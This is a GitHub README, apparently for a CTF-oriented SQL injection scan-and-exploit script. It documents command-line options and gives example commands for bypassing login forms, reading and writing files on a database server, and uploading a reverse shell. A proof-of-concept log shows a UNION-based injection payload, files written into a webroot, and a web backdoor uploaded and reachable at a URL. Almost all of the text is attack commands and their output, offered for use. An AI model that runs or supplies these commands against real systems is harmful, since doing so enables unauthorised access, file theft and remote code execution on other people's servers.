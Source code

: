 
##  ____   ____   ____   ____ _     _       _              _ 
## |  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
## | |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
## |  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
## |_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
##        \____/ \_\/_/                                      

##### Find all scripts in: https://github.com/roughiz


##### SQLI script by R0()Gh1z
# -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

# sql_injection
A sql injection scan and exploit script

This script can be used if you can't use sqlmap, or for any restriction like wih some ctfs.

It scan if a parameter is injectable , and also find how to exploit it.

## Functions:

##### . Scan
##### . Bypass a blind authentication Form with return message (true,false)
##### . Found an injection
##### . Define a startsWith of an injection
##### . Use of proxy to debug
##### . Read a file from the DBMS
##### . Write a file into the DBMS
##### . Upload a reverse shell into the DBMS 


## Use

```
usage: sql_injection [-h] --data DATA [-m METHOD] [--file-dest REMOTEPAH]
                     [--file-write LOCALPATH] [--file-read PATHTOREAD]
                     [--upload-revshell REVSHELLPATH] [-H HEADER] [-c COOKIES]
                     -u URL -p PARAMETER [-ns BYPASS] [-s FOUND] [-l LEVEL]
                     [--prefix PREFIX] [--proxy] [-v]

A sql injection scan and exploit script

optional arguments:
  -h, --help            show this help message and exit
  --data DATA           Data string to be sent through POST/GET Like
                        "category=2&productId=1&productName=name"
  -m METHOD, --method METHOD
                        Htp method to use for injection, set to POST by
                        default
  --file-dest REMOTEPAH
                        Back-end DBMS absolute filepath to write to
  --file-write LOCALPATH
                        Write a local file on the back-end DBMS file system
  --file-read PATHTOREAD
                        Read a local file on the back-end DBMS file system
  --upload-revshell REVSHELLPATH
                        Upload a rev shell in the host. The script verify if
                        rev-shell is accessible from outside
  -H HEADER             One or multiple header for the request, separate with
                        a space Use like 'key1:value1 key2:value2'
  -c COOKIES, --cookies COOKIES
                        One or multiple cookies values for the request,
                        separate with a space Use like 'PHPSESSID=shuv7rnuv
                        UserToken=yes'
  -u URL, --url URL     The url to use for sqli
  -p PARAMETER, --parameter PARAMETER
                        The injectable parameter
  -ns BYPASS, --not-string BYPASS
                        Define the failed login message. Script try sqli until
                        this string is not in the request output
  -s FOUND, --string FOUND
                        Define the successfully login message. Script try sqli
                        until the string is in the request output
  -l LEVEL, --level LEVEL
                        The level of the scan (l|h) "l" for little, and "h"
                        for huge
  --prefix PREFIX       Define a prefix variable for the sqli. Per example "1
                        "
  --proxy               Use a default proxy at "127.0.0.1:8080". set to False
                        by default
  -v, --verbose         Define verbose output. set to False by default
```

## Examples

#### Bypass a form authetication returning a text when false

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -ns "Your Login Name or Password is invalid" 
```

#### Bypass a form authetication returning a text when true

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -s "Success" 
```

#### Found an injection

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId 
```

#### Found an injection with verbose mode and also using a local proxy

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId -v --proxy
```
#### Read a file from the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-read "C:/Inetpub/wwwroot/view_product.php"
```

#### Write a file into the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-write /tmp/output.txt --file-dest "/InetPub/wwwroot/test.txt"
```

#### Upload a reverse shell into the DBMS 

```
$ sql_injection -u http://10.10.10.10:8080/complain/view.php -m GET -H "Agent:roughiz" --data "mod=admin&view=repod&id=plans" -p id  --cookie "PHPSESSID=9cc97jn016e2naklhp4rnj64j0"  --upload-revshell shell_cmd.php
```

## Poc

```
$ sql_injection -u http://box/view_product.php -H "X-Forwarded-For:192.168.1.2 Agent:roughiz" --data "productId=1" -p productId  --file-write test.txt --file-dest "C:/Inetpub/wwwroot/uploads/test.txt" --file-read "/Inetpub/wwwroot/cx3iSfa2OwsY.php"  --upload-revshell ./shell_cmd.php

[SQLI] The parameter "productId" is injectable
[SQLI] Blind injection use code error to analyse injection
[Exploit] Found a sqli injection: -8408 UNION ALL SELECT CONCAT(0x716a6b6a54,0x57795a66454142,0x5562626b71)#
[Exploit] The Head: (-8408 UNION ALL SELECT  ) and the comment char: (#)
[Upload] Upload a file through sqli
Do you want confirmation that the file 'test.txt' has been successfully written on the backend file system ('C:/Inetpub/wwwroot/uploads/test.txt')?. 'No' by default: [y/n] y
[Upload] File has been successfully written on the backend 
[Upload] File verification: the local file "test.txt" and the remote file "C:/Inetpub/wwwroot/uploads/test.txt" have the same size (74 B)
[Read] The file "/Inetpub/wwwroot/cx3iSfa2OwsY.php" exists and it has the size (74 B)
[Read] File readed successfully, it will be saved at he path: "/tmp/lJ6iu9Kp__Inetpub_wwwroot_cx3iSfa2OwsY.php" 
[Reverse Shell Upload] Upload a reverse shell file through sqli
[INFO] Going to use a web backdoor to establish the tunnel
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
[Reverse Shell Upload] Define destination directory path
what do you want to use for writable directory?
[1] Define a locations(s) path(s)
[2] Brute force search (default)
> 2
[Reverse Shell Upload] Define the DBMS server architecture
Choose the DBMS architecture?
[1] Windows
[2] Linux
[3] All (default)
> 1
[Reverse Shell Upload] The script found 1 url(s)
[URL] Try your reverse shell in the url: http://box/adbVypBUZZ9n.php uploaded in the DBMS path "/Inetpub/wwwroot/adbVypBUZZ9n.php"
```


